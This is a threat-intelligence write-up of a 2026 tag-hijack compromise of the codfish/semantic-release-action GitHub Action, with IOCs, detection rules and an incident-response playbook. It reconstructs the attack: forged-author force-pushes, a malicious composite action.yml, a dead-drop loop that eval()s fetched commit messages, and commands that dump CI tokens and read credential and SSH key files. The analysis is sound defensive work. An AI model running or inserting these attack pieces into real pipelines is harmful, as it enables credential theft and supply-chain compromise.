

# Miasma Dead-Drop C2 via GitHub API: codfish/semantic-release-action Tag Hijack

## TL;DR

On June 24, 2026, an unattributed operator leveraging the leaked Miasma credential-stealing toolkit force-pushed two orphan commits into the `codfish/semantic-release-action` GitHub repository and repointed sixteen release tags (v2 through v5) to a 781 KB obfuscated JavaScript payload. Any CI/CD workflow that references the action by a floating tag and runs after the compromise silently executes the payload, which polls the GitHub public commit search API for a dead-drop marker string (`thebeautifulsnadsoftime`) and `eval()`s whatever command payload is attached — no traditional C2 infrastructure required. The action targets `GITHUB_TOKEN` and `NPM_TOKEN` from release workflows, giving the operator immediate repo write access and npm publish capability to self-propagate. The Miasma toolkit was leaked publicly on June 10, 2026; this compromise is a direct downstream use of that leaked code against a widely-deployed GitHub Action used for automated semantic versioning since 2019.

## Attribution and confidence

| Field | Value |
|---|---|
| Cluster | Miasma-unattributed |
| Aliases | Miasma toolkit operator (Aikido Intel); Shai-Hulud lineage (Microsoft MSTIC, Phoenix Security) |
| Region nexus | Unknown; toolkit available to any operator post-June-10 leak |
| Vendor / date | Aikido Security, 2026-06-24; Microsoft Security Blog, 2026-06-02 (Red Hat campaign) |
| Attribution confidence | **low** (operator identity unknown post-leak) / **high** (IOCs, mechanism, Miasma toolkit fingerprint) |

**Toolkit genealogy:** Miasma is a direct evolution of the Shai-Hulud worm family tracked by Microsoft MSTIC and Checkmarx since late 2025. The Python variant is separately called "Hades" (marker string `firedalazer`). The JavaScript delivery variant ("TheBeautifulSandsOfTime") was first documented in the Red Hat `@redhat-cloud-services` npm campaign on June 1, 2026 (Microsoft Security Blog, 2026-06-02). The toolkit source was leaked on GitHub on June 10, 2026, lowering the barrier to entry for any operator. The codfish compromise on June 24 is the first confirmed use of the leaked toolkit against a GitHub Actions target.

**Repo genealogy:** Extends the supply-chain worm thread from `2026-04-29_ShaiHulud-Bitwarden` (#7, npm worm) and `2026-05-14_Mini-Shai-Hulud-TeamPCP-Mega-Campaign` (#7, multi-ecosystem). Key structural difference: prior Shai-Hulud cases used `postinstall` hooks in npm packages; Miasma on GitHub Actions hijacks the tag-resolution moment in the Actions runner, targeting CI/CD secrets rather than developer workstation credentials. The dead-drop C2 via GitHub commit search API is novel to this family.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Resource development | T1588.001 | Operator adopts leaked Miasma toolkit (Jun 10 public leak); obtains maintainer account access |
| Supply chain compromise | T1195.003 | Force-push of 2 orphan commits; 16 tags (v2–v5) repointed to malicious payload |
| Execution — composite swap | T1059.007 | `action.yml` replaced with composite; legitimate step runs for cover; Bun installed via `oven-sh/setup-bun`; `index.js` executed |
| Dead-drop C2 | T1071.001 | Payload polls `api.github.com/search/commits?q=thebeautifulsnadsoftime`; `eval()`s returned command payload |
| Credential access | T1552.001 | Harvests `GITHUB_TOKEN`, `NPM_TOKEN`, cloud credentials, SSH keys from runner env |
| Exfiltration | T1567.001 | Secrets staged in victim-owned GitHub repo; NPM_TOKEN used to republish worm to npm packages |
| Timestomping / cover | T1070.006 | Orphan commits spoof real author identity and 2023 commit timestamp to evade quick `git log` review |



The left lane represents the victim CI/CD pipeline — from a workflow referencing a floating tag, through the composite action execution, to credential harvest on the runner. The right lane represents the attacker's infrastructure: the leaked Miasma toolkit, a GitHub repo used as a dead-drop command channel, and downstream npm publish targets. The red-bordered stage at "Dead-Drop C2" marks the key detection anchor: outbound HTTP to `api.github.com/search/commits` from a CI runner process tree is never legitimate. Cross-lane arrows show the tag repoint (attacker writes; runner reads) and the credential exfiltration channel (runner writes to attacker-controlled GitHub repo).

## Stage-by-stage detail

### Stage 1 — Resource development (T1588.001)

The Miasma toolkit source code was briefly published to GitHub under the repository name "Miasma-Open-Source-Release" on June 10, 2026, before being removed. Multiple archived copies circulated on developer forums. The toolkit is modular: a JavaScript variant uses the `TheBeautifulSandsOfTime` dead-drop channel, a Python variant ("Hades") uses `firedalazer`, and a PAT-specific exfiltration module keys on `DontRevokeOrItGoesBoom`. The operator targeting `codfish/semantic-release-action` obtained maintainer-level push access to the repository, likely via a previously harvested GitHub credential (consistent with Miasma's own propagation model).

### Stage 2 — Supply chain compromise — tag hijack (T1195.003, T1070.006)

```bash
# Attacker sequence (reconstructed from Aikido analysis)
git clone https://github.com/codfish/semantic-release-action
# Create orphan root commit with forged author metadata
git checkout --orphan malicious-root
# Replace action.yml with composite; add index.js payload
git add .
GIT_AUTHOR_NAME="Chris O'Donnell" \
GIT_AUTHOR_EMAIL="1666298+codfish@users.noreply.github.com" \
GIT_AUTHOR_DATE="Thu Nov 9 16:49:48 2023 +0000" \
GIT_COMMITTER_DATE="Thu Nov 9 16:49:48 2023 +0000" \
git commit -m "Merge pull request #195 from codfish/force-install"
# Force-push orphan, repoint 16 tags
git push --force origin malicious-root:refs/tags/v2
git push --force origin malicious-root:refs/tags/v3
# ... (16 tags total: v2, v2.2.1, v3 through v3.5.0, v4, v4.0.0, v4.0.1, v5, v5.0.0)
```

Malicious commit hashes (both carry byte-identical `index.js`):
- `5792aba0e2180b9b80b77644370a6889d5817456` — carries v2.2.1, v3–v3.5.0, v4–v4.0.1, v5, v5.0.0
- `bcb6b1d409144318e8fad2171d6fe06d02299d1a` — carries v2 (child of first orphan commit)

Neither commit is an ancestor of the repository's `main` branch. The forged author name, email, and 2023 timestamp mimic a real merge commit from the project's history.

### Stage 3 — Execution — composite action swap (T1059.007)

The malicious `action.yml` replaces the original Docker-based action with a composite:

```yaml
# Malicious action.yml (reconstructed)
runs:
  using: composite
  steps:
    - uses: "codfish/semantic-release-action@8f9a58f2acdc190c356f79159b5de2548cdb63cd"
      with:
        branches: "${{ inputs.branches }}"
      # ... remaining inputs passed through unchanged
    - uses: "oven-sh/setup-bun@0c5077e51419868618aeaa5fe8019c62421857d6"
      if: always()
    - name: Cleanup Action
      if: always()
      shell: bash
      run: bun run $GITHUB_ACTION_PATH/index.js
```

Key design choices: the first step calls the real `codfish/semantic-release-action` pinned to a clean commit hash, so the workflow functions normally and no CI failure is raised. The `if: always()` on both subsequent steps means they fire regardless of the outcome of the first step. `oven-sh/setup-bun` is a legitimate third-party action; it is used only to place the Bun runtime on the runner. The payload executes as `bun run $GITHUB_ACTION_PATH/index.js`.

### Stage 4 — Dead-drop C2 via GitHub commit search API (T1071.001)

`index.js` is 781,580 bytes of output from a commercial JavaScript obfuscator (hex-encoded string array, `_0x`-prefixed variable names). Within the obfuscated body:

```javascript
// Deobfuscated dead-drop polling loop (conceptual reconstruction)
const MARKER = "thebeautifulsnadsoftime";   // near-match for TheBeautifulSandsOfTime
const API = "https://api.github.com/search/commits?q=" + MARKER;
async function pollDeadDrop() {
    const resp = await fetch(API, { headers: { "Accept": "application/vnd.github.cloak-preview" } });
    const data = await resp.json();
    if (data.items && data.items.length > 0) {
        const cmd = data.items[0].commit.message;   // payload embedded in commit message
        eval(cmd);
    }
}
```

No traditional C2 IP or domain is required. The GitHub public commit search API is accessed over HTTPS on port 443, using a legitimate `api.github.com` hostname that passes standard domain allowlist checks.

### Stage 5 — Credential access (T1552.001)

The command delivered via dead-drop targets credentials available in the CI runner environment:

```bash
# Credential targets (reconstructed from Miasma campaign analysis)
env | grep -E 'GITHUB_TOKEN|NPM_TOKEN|AWS_|AZURE_|GCP_|GOOGLE_|NODE_AUTH_TOKEN'
cat ~/.npmrc ~/.netrc ~/.git-credentials ~/.aws/credentials
find / -name "*.pem" -o -name "id_rsa" -o -name "*.key" 2>/dev/null
```

`GITHUB_TOKEN` provides write access to the repository triggering the workflow and read access to other repos in the org depending on workflow permissions. `NPM_TOKEN` (when present in release workflows) grants npm publish rights on every package the victim maintainer owns — enabling the worm to self-propagate into the npm ecosystem.

### Stage 6 — Exfiltration and propagation (T1567.001)

Harvested credentials are committed to a public GitHub repo created under the victim account, named with the Miasma marker description. If an `NPM_TOKEN` is present, the worm bumps the patch version of each package the victim can publish, injects itself as a `preinstall` hook, and publishes the new version to npm — the same propagation mechanism used in the original Shai-Hulud/TeamPCP campaigns.

## RE notes

| Component | SHA256 | Lang | Obfuscation | Notes |
|---|---|---|---|---|
| `index.js` (both malicious commits) | `9f93d77d32833a515bc406c46da477142bb1ac2babeecb6aa42f98669a6db015` | JavaScript | Commercial JS obfuscator (_0x hex string-array style) | 781,580 bytes; contains dead-drop marker `thebeautifulsnadsoftime`; Bun runtime required |
| `action.yml` (malicious) | not separately published | YAML | None | Composite action wrapping legitimate release action; `if: always()` bypass pattern |

Anti-analysis: the obfuscated JS is not self-contained — active exploitation requires the dead-drop channel to be populated with a command payload. Static analysis of `index.js` alone reveals the dead-drop polling loop but not the final credential-theft commands (those are delivered dynamically via `eval()`).

## Detection strategy

### Telemetry that matters

**CI/CD runner (GitHub Actions hosted / self-hosted):**
- Any execution of `bun` spawned from a step named `Cleanup Action` or with `GITHUB_ACTION_PATH` in the command line
- Outbound HTTP GET to `api.github.com/search/commits` from within an Actions runner process tree
- Composite `action.yml` that includes `oven-sh/setup-bun` + a `bun run` step with `if: always()`
- Environment variable reads matching `GITHUB_TOKEN|NPM_TOKEN|AWS_` patterns within Actions context

**Repository event logs (GitHub Audit Log):**
- `git.push` events with `forced: true` on tag refs (`refs/tags/v*`)
- New commits whose SHA does not appear as a descendent of the `main`/`master` branch but is pointed to by an existing tag

**Network (egress from CI):**
- HTTPS connection from runner to `api.github.com` with URI path `/search/commits` and query parameter matching the marker pattern

**Sysmon (self-hosted runners):**
- EID 1: `bun.exe` / `bun` process with parent `Runner.Worker` or `actions/runner`
- EID 3: Outbound connection from `bun` / `node` to `140.82.112.0/20` (GitHub API IP range) during Actions execution
- EID 11: Large JS file (`> 500 KB`) created in `$RUNNER_TOOL_CACHE` or `$GITHUB_ACTION_PATH`

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | `sigma/gha_bun_cleanup_action_exec.yml` | process_creation — `bun` spawned from runner with `GITHUB_ACTION_PATH` in CommandLine |
| Sigma | `sigma/gha_composite_always_bun_run.yml` | file_event — composite `action.yml` containing both `setup-bun` and `if: always()` + `bun run` |
| Sigma | `sigma/github_api_commit_search_from_runner.yml` | network_connection — `api.github.com` + `/search/commits` path from `bun`/`node` process |
| KQL | `kql/defender_bun_runner_secret_dump.kql` | DeviceProcessEvents — `bun` child of runner + env reads matching credential patterns |
| KQL | `kql/defender_gha_commit_search_api_c2.kql` | DeviceNetworkEvents — outbound to `api.github.com/search/commits` from runner process tree |
| KQL | `kql/sentinel_github_audit_tag_force_push.kql` | AuditLogs / GitHub webhook — force-push on `refs/tags/` with non-ancestor commit SHA |
| KQL | `kql/sentinel_npm_token_env_exfil.kql` | Syslog — env dump patterns in Actions runner process matching credential regexes |
| YARA | `yara/miasma_dead_drop_js_marker.yar` | String hunt for dead-drop markers in JS payloads (`thebeautifulsnadsoftime`, `DontRevokeOrItGoesBoom`, `firedalazer`) |
| YARA | `yara/miasma_composite_action_bun_pattern.yar` | YAML action.yml heuristic: `setup-bun` + `if: always()` + `bun run $GITHUB_ACTION_PATH` |
| Suricata | `suricata/miasma_codfish_c2.rules` | TLS SNI + URI path for GitHub commit search API; dead-drop marker in HTTP requests |

### Threat hunting hypotheses

**H1 — Tag-SHA mismatch hunt (PEAK: Scoping):** For all GitHub Actions runs in the last 30 days, correlate the resolved SHA for each `uses:` reference with the expected tip of the named branch/tag. Any run where the resolved SHA is not an ancestor of the `main` branch is a candidate orphan commit. See `hunts/peak_h1_gha_tag_sha_mismatch.md`.

**H2 — Bun-from-CI outbound hunt (PEAK: Execution):** Across all endpoints registered as self-hosted GitHub Actions runners, find any instance of `bun`/`bun.exe` making outbound HTTPS connections during a workflow run. Bun is not a standard CI runtime; its presence indicates either a declared `setup-bun` step (check if `if: always()`) or a compromised composite action. See `hunts/peak_h2_bun_outbound_ci_runner.md`.

**H3 — Credential env read burst in runner context (PEAK: Credential Access):** Find CI runner processes that read more than 3 distinct credential-related environment variable names (`GITHUB_TOKEN`, `NPM_TOKEN`, `AWS_*`, `AZURE_*`, `GCP_*`) within 60 seconds of each other. False-positive baseline: legitimate release tooling reads at most 1–2 credential vars. See `hunts/peak_h3_ci_credential_env_burst.md`.

## Incident response playbook

### First 60 minutes (triage)

1. Identify all GitHub Actions workflows in your organization that reference `codfish/semantic-release-action` at any floating tag (`@v2`, `@v3`, `@v4`, `@v5`, `@v2.2.1`, `@v3.x.x`, `@v4.x.x`, `@v5.0.0`).
2. For each identified workflow, check whether it ran between 2026-06-24 00:00 UTC and the current time. If yes, treat the run as potentially compromised.
3. Immediately revoke all `NPM_TOKEN` secrets in repositories where the action ran. If an `NPM_TOKEN` was present, assume credential exfiltration occurred and check npm publish logs for unexpected releases.
4. Immediately rotate `GITHUB_TOKEN` effective permissions: set all affected repos to `permissions: contents: read` at the workflow level (tokens are short-lived but issued credentials may have been forwarded).
5. Audit GitHub org audit log for `git.push` events with `forced: true` on any `refs/tags/` after June 24, 2026 — these indicate further tag hijacks.
6. Search GitHub public commit search for the marker strings: `thebeautifulsnadsoftime`, `DontRevokeOrItGoesBoom`, `firedalazer` — any commit appearing in your org's repos with these strings indicates active Miasma propagation.

### Artifacts to collect

| Artifact | Path | Tool | Why |
|---|---|---|---|
| Actions runner logs | `_work/_temp/_runner_file_commands/` on self-hosted; GitHub web UI `Actions > workflow run > logs` | GitHub UI / runner filesystem | Capture full step output including env reads |
| npm audit log | `~/.npm/_logs/` | npm CLI | Detect unexpected publishes |
| Runner process tree snapshot | Process list on self-hosted runner | ps / procmon | Identify `bun` parent chain |
| GitHub audit log export | Org settings > Audit log > Export | GitHub API / UI | Force-push events, new repo creation |
| `index.js` from malicious commit | `git show 5792aba0:index.js > index.js.sample` | git | Static analysis and YARA matching |
| Composite `action.yml` from malicious commit | `git show 5792aba0:action.yml` | git | Confirm composite structure |
| Runner environment dump | `env` output from workflow log | GitHub Actions log | Identify which secrets were in scope |

### IR queries and commands

```bash
# Identify workflows referencing codfish/semantic-release-action at floating tags
grep -r "codfish/semantic-release-action@v[2-9]" .github/workflows/

# Verify current tag resolution (should point to clean commit after remediation)
git ls-remote https://github.com/codfish/semantic-release-action "refs/tags/v*"
# Clean tags confirmed by Aikido:
# v1.0.0 – v1.10.0, v2.0.0

# Check npm publish log for unexpected releases (run as the compromised maintainer identity)
npm access list packages <username>
npm view <package> time --json | tail -5

# Search GitHub audit log for force-push on tags in your org
# (requires GitHub Enterprise or org admin)
gh api /orgs/<ORG>/audit-log \
  --paginate --jq '.[] | select(.action == "git.push" and .data.forced == true and (.ref | startswith("refs/tags/")))'

# Revoke and rotate NPM_TOKEN
npm token revoke <token-prefix>
# Then set new token in GitHub Actions Secrets
```

```kql
// Defender XDR: Bun process execution from CI runner context
DeviceProcessEvents
| where FileName in~ ("bun", "bun.exe")
| where InitiatingProcessFileName contains "runner"
    or InitiatingProcessCommandLine contains "GITHUB_ACTION_PATH"
| project Timestamp, DeviceName, ProcessCommandLine, InitiatingProcessCommandLine, AccountName
```

### Containment, eradication, recovery

**Contain:** Pin ALL `uses:` references to full commit SHAs immediately — `codfish/semantic-release-action@<clean-sha>`. Do NOT use any floating tag. Revoke any `NPM_TOKEN` and `GITHUB_TOKEN`-derived credentials that ran against compromised workflow versions.

**Eradicate:** If npm packages were republished by the worm, work with npm security to retract the malicious versions. Check downstream consumers of your npm packages for `preinstall` hook injection.

**Recover:** Re-publish clean package versions with a fresh `NPM_TOKEN`. Rotate all CI secrets. Enable branch protections and tag protections (GitHub's protected tags feature prevents force-push on `refs/tags/`).

**Do NOT:** Do not simply update `action.yml` in the workflow to a newer version number (floating tag) — the tag itself may still be poisoned. Pin to SHA.

**Exit criteria:** All workflows updated to SHA-pinned references; all affected tokens rotated; npm publish log shows no unexpected versions; GitHub audit log shows no new force-push events on tag refs.

### Recovery validation

```bash
# Confirm tag points to clean commit
SHA=$(git ls-remote https://github.com/codfish/semantic-release-action refs/tags/v4 | awk '{print $1}')
echo "v4 points to: $SHA"
# Compare against known-clean commit published in Aikido advisory

# Verify SBOM / action integrity
# Use GitHub's action pinning scanner (e.g., step-security/harden-runner) in CI
gh api /repos/codfish/semantic-release-action/git/refs/tags/v4 \
  --jq '.object.sha'
```

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| sha256 | `9f93d77d32833a515bc406c46da477142bb1ac2babeecb6aa42f98669a6db015` | Miasma index.js payload (both malicious commits, byte-identical) | high | Aikido 2026-06-24 |
| string | `5792aba0e2180b9b80b77644370a6889d5817456` | Malicious orphan commit 1 (v2.2.1, v3-v5 tags) | high | Aikido 2026-06-24 |
| string | `bcb6b1d409144318e8fad2171d6fe06d02299d1a` | Malicious orphan commit 2 (v2 tag) | high | Aikido 2026-06-24 |
| string | `thebeautifulsnadsoftime` | Dead-drop dead drop marker string in index.js (near-match TheBeautifulSandsOfTime) | high | Aikido 2026-06-24 |
| string | `DontRevokeOrItGoesBoom` | Miasma PAT exfiltration dead-drop channel marker | high | Multiple (Miasma toolkit leak analysis) |
| string | `firedalazer` | Miasma Hades (Python) dead-drop channel marker | high | Phoenix Security 2026-06 |
| string | `oven-sh/setup-bun@0c5077e51419868618aeaa5fe8019c62421857d6` | Third-party action used to install Bun runtime in malicious composite | high | Aikido 2026-06-24 |
| url | `https://api.github.com/search/commits?q=thebeautifulsnadsoftime` | Dead-drop C2 polling endpoint | high | Aikido 2026-06-24 |
| string | `Miasma: The Spreading Blight` | GitHub repo description used by worm to stage exfiltrated credentials | high | Microsoft Security Blog 2026-06-02 |
| note | `codfish/semantic-release-action@v2` through `@v5.0.0` | 16 affected floating tags; pin to SHA instead | high | Aikido 2026-06-24 |
| note | `codfish/semantic-release-action@v1.0.0-v1.10.0` and `@v2.0.0` | Confirmed clean versions (not repointed) | high | Aikido 2026-06-24 |

Full IOC set in `iocs.csv`.

## Secondary findings

- **Mastra AI framework supply chain attack (June 17, 2026):** An attacker compromised the `@mastra` npm organization and quietly added `easy-day-js` — a typosquat of the popular `dayjs` date library — as a dependency across 141 Mastra AI framework packages. The `easy-day-js` postinstall script fetched and executed a credential-stealing dropper at install time. The Mastra framework is widely used in AI agent and LLM application development, meaning the attack targeted the CI/CD pipelines and developer machines of AI application builders. Source: Aikido Security, 2026-06-17. Detection anchor: any `npm install` that pulls `easy-day-js` instead of `dayjs` is an immediate indicator; the two packages are functionally identical but the typosquat adds a `postinstall` hook absent from the legitimate package.

- **JetBrains IDE plugins stealing AI provider API keys (June 16, 2026):** At least 15 JetBrains Marketplace plugins published under seven fake vendor accounts were identified exfiltrating AI provider API keys (OpenAI, Anthropic, Gemini) pasted by developers into IDE settings. The plugins functioned as thin wrappers over legitimate AI coding assistants but persisted API keys to a remote endpoint. This extends the attack surface for Miasma-class credential theft from CI/CD pipelines (server-side) to developer workstations (client-side), where AI API keys carry significant financial and data access consequences. Source: Aikido Security, 2026-06-16.

- **Miasma as force-multiplier post-leak:** The June 10, 2026 Miasma source code leak converted a sophisticated threat actor toolkit into commodity infrastructure. The codfish compromise is the third confirmed downstream use of the leaked toolkit in 15 days (after new `@redhat-cloud-services` waves and the Hades PyPI wave). This pattern mirrors the Chaos RAT builder leak of 2022 and the LockBit 3.0 builder leak of 2022: leaked attacker tooling produces a sustained wave of lower-skill operators using the same fingerprints, which simultaneously increases noise and enables high-fidelity detection via the shared marker strings.

## Pedagogical anchors

- **Floating tags are mutable refs, not versions:** `@v4` in a GitHub Actions `uses:` clause is semantically equivalent to a `latest` tag — the owner can change what it points to at any time with a force-push. The correct pattern is `uses: codfish/semantic-release-action@<full-40-char-sha>`. The SHA is content-addressed and immutable. Tools such as `step-security/harden-runner`, Dependabot, and Renovate can automate SHA pinning at scale.

- **`if: always()` is a gating bypass:** Steps guarded by `if: always()` run regardless of upstream failure or cancellation. A malicious composite action that calls the real action first (functional cover) and then runs a payload with `if: always()` will pass all CI status checks, appear in green workflow runs, and execute the payload even if the legitimate step failed.

- **Dead-drop C2 via legitimate web services defeats IP/domain blocklists:** The Miasma payload never connects to an attacker-controlled server. It queries `api.github.com` — a domain that is always on every allowlist. The only detection handle is the specific URI path (`/search/commits`) combined with the unusual origin (a Bun/Node process spawned from an Actions runner). Effective detection requires behavior-based rules, not blocklists.

- **Toolkit leaks lower TTX but preserve IOC fidelity:** After a toolkit is leaked publicly, the barrier to entry drops and the volume of attacks increases. Paradoxically, all downstream operators retain the same marker strings (dead-drop C2 keys, payload structure), because changing them would require re-implementing the toolkit. This makes post-leak detection easier, not harder — the same YARA/Sigma rules catch all downstream operators.

- **CI/CD secrets require the same rotation cadence as user credentials:** `GITHUB_TOKEN` is scoped to the run but `NPM_TOKEN` and cloud service tokens are long-lived. The appropriate posture is to treat any CI/CD run that executed a compromised action as a full secret rotation event: revoke all secrets in scope, audit downstream publish logs, and re-issue tokens with minimum necessary scope (`contents: read` default workflow permissions, short-lived OIDC tokens instead of stored secrets where possible).

## What's in this folder

| File | Purpose |
|---|---|
| [README.md](./README.md) | Full case write-up (this file) |
| [kill_chain.svg](./kill_chain.svg) | Two-lane kill chain diagram, Template A, Miasma tag-hijack case |
| [sigma/gha_bun_cleanup_action_exec.yml](./sigma/gha_bun_cleanup_action_exec.yml) | Sigma: process_creation — Bun spawned from GitHub Actions runner with GITHUB_ACTION_PATH |
| [sigma/gha_composite_always_bun_run.yml](./sigma/gha_composite_always_bun_run.yml) | Sigma: file_event — composite action.yml with setup-bun and if-always bun run pattern |
| [sigma/github_api_commit_search_from_runner.yml](./sigma/github_api_commit_search_from_runner.yml) | Sigma: network_connection — GitHub commit search API from runner process |
| [kql/defender_bun_runner_secret_dump.kql](./kql/defender_bun_runner_secret_dump.kql) | KQL Defender XDR: Bun child of runner + credential env reads |
| [kql/defender_gha_commit_search_api_c2.kql](./kql/defender_gha_commit_search_api_c2.kql) | KQL Defender XDR: outbound to api.github.com/search/commits from runner |
| [kql/sentinel_github_audit_tag_force_push.kql](./kql/sentinel_github_audit_tag_force_push.kql) | KQL Sentinel: GitHub audit log force-push on tag refs |
| [kql/sentinel_npm_token_env_exfil.kql](./kql/sentinel_npm_token_env_exfil.kql) | KQL Sentinel: Syslog env dump patterns matching credential regexes in runner context |
| [yara/miasma_dead_drop_js_marker.yar](./yara/miasma_dead_drop_js_marker.yar) | YARA: dead-drop marker strings in JS payloads |
| [yara/miasma_composite_action_bun_pattern.yar](./yara/miasma_composite_action_bun_pattern.yar) | YARA: composite action.yml heuristic for setup-bun + if-always + bun run pattern |
| [suricata/miasma_codfish_c2.rules](./suricata/miasma_codfish_c2.rules) | Suricata 7.x: dead-drop polling, Bun install, marker strings |
| [hunts/peak_h1_gha_tag_sha_mismatch.md](./hunts/peak_h1_gha_tag_sha_mismatch.md) | PEAK H1: Tag-SHA mismatch hunt across Actions runs |
| [hunts/peak_h2_bun_outbound_ci_runner.md](./hunts/peak_h2_bun_outbound_ci_runner.md) | PEAK H2: Bun outbound connections from self-hosted CI runners |
| [hunts/peak_h3_ci_credential_env_burst.md](./hunts/peak_h3_ci_credential_env_burst.md) | PEAK H3: Credential env var read burst in runner context |
| [iocs.csv](./iocs.csv) | All IOCs in CSV format |

## Sources

- [Aikido Security — Compromised GitHub action codfish/semantic-release-action steals CI/CD secrets (2026-06-24)](https://www.aikido.dev/blog/compromised-github-action-codfish-steals-secrets)
- [Microsoft Security Blog — Preinstall to persistence: Inside the Red Hat npm Miasma credential-stealing campaign (2026-06-02)](https://www.microsoft.com/en-us/security/blog/2026/06/02/preinstall-persistence-inside-red-hat-npm-miasma-credential-stealing-campaign/)
- [BleepingComputer — The Miasma worm source code briefly leaked on GitHub](https://www.bleepingcomputer.com/news/security/the-miasma-worm-source-code-briefly-leaked-on-github/)
- [Aikido Security — Over 140 popular Mastra npm Packages Hit by Supply Chain Attack (2026-06-17)](https://www.aikido.dev/blog/over-140-popular-mastra-npm-packages-hit-by-supply-chain-attack)
- [Phoenix Security — Miasma Worm Reaches Microsoft Azure and PyPI: 73 Repositories Disabled, Hades Wave](https://phoenix.security/miasma-azure-hades-pypi-supply-chain-worm-2026/)
- [SafeDep — Inside the Miasma Software Supply Chain Attack Toolkit](https://safedep.io/inside-the-miasma-supply-chain-attack-toolkit/)
- [GitGuardian — No Off Season: Three Supply Chain Campaigns Hit npm, PyPI, and Docker Hub in 48 Hours](https://blog.gitguardian.com/three-supply-chain-campaigns-hit-npm-pypi-and-docker-hub-in-48-hours/)
